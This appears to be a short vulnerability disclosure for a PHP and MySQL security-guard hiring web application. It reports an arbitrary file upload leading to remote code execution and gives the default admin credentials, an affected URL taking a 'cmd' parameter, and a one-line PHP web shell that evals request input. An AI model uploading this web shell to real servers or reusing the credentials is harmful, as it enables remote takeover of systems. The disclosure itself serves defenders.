 # Online Security Guard Hiring System
+ version 1.0
+ vendors : [Online Security Guards Hiring System using PHP and MySQL](https://phpgurukul.com/online-security-guards-hiring-system-using-php-and-mysql/)
+ Software Link: https://phpgurukul.com/projects/Online-Security-Guard-Hiring-System_PHP.zip
+ Tested on: Windows 10 + XAMPP
+ Credential for admin panel :
  + Username: admin
  + Password: Test@123
+ arbitrary file upload (RCE)

**Affect URL**
> http://localhost/osghs/admin/images/index.php?cmd=phpinfo();

**PHP test program**
```
<?php $code = $_GET['cmd'];
eval($code); ?>
```

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/9b24fda4-4fd0-4eb5-b465-8315ef4ceba8)

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/fb4e829b-b19a-488e-abbd-f19db61a4087)

![image](https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/2e775a08-950c-46fa-adb3-42d1cd96c90f)

## POC

https://github.com/Trinity-SYT-SECURITY/arbitrary-file-upload-RCE/assets/96654161/aa1de286-20ad-422d-a564-cb2f984af26b


